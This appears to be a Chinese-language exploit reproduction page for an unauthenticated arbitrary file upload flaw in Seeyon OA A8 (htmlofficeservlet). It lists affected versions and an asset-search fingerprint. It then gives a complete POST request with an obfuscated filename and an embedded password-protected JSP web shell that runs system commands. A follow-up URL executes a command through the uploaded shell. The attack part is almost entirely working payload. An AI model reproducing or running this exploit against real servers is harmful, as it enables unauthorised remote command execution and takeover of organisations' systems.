


# 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 影响版本

<a-checkbox checked>致远A8-V5协同管理软件V6.1sp1</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.1</a-checkbox></br>

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞


使用POST请求发出如下请求包

```plain
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```




出现如图响应则为上传成功,访问 

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

